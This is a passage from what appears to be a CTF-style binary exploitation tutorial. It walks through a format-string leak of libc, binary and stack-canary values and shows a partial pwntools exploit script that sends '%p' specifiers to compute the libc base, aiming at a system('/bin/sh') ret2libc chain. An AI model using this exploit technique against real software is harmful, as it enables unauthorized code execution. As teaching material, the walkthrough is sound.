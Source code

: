 ![](/assets/images/pwntraining3/pwntrain8.png)

* We can confirm that the address ``0x7ffff7faea03`` is from the libc, nice ! we already got a leak. Attach gdb and check what the address corresponds to.

![](/assets/images/pwntraining3/pwntrain9.png)

Ok this is a libc function, we can calculate the offset of this function from the libc base. Now lets see if any other important info is leaked. :thinking:

Address that is ``0x5555555550a0``, is a address that is winthin the binary, we can calculate the offset like the previous one. 

Finally lets see if the canary is also included in the stack. Yes it is indeed inside the stack and can clearly see it.

![](/assets/images/pwntraining3/pwntrain10.png)

Now to find the position of canary we can set a break point in the address before the ``__stack_chk_fail@plt``. The stack will be stored in the `RCX` register. Create a offset pattern then see what value is in the `RCX` register and place the canary value there to complete the exploit.

Now it is simple. We can simply calculate all the relative offset from the base of binary and libc, So we can now ``pop rdi`` to populate it with the address of `/bin/sh` and call `system`. Below I have given the commented solution.

```py
#!/usr/bin/env python3
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='amd64')
exe = './ret2libc_canary'
elf = ELF("./ret2libc_canary")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)


# ./exploit.py GDB
gdbscript = '''
b* main+164
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

p = start()

# phase 1 : leaking binary and libc address
p.sendlineafter("So you wanna try again. Go ahead :)", b"%p "*25) # send format specifier to leak data from the stack
p.recvline() # recv the new line.

all_leaked = str(p.recvline()).split() # store all leaked data as a list.
log.info("Info leaked: " + str(all_leaked)) # log it to make sure everything works fine
libc_base = int(str(all_leaked[0])[2:], 16) - 2013699 # take the first element in the list which is a libc function.
```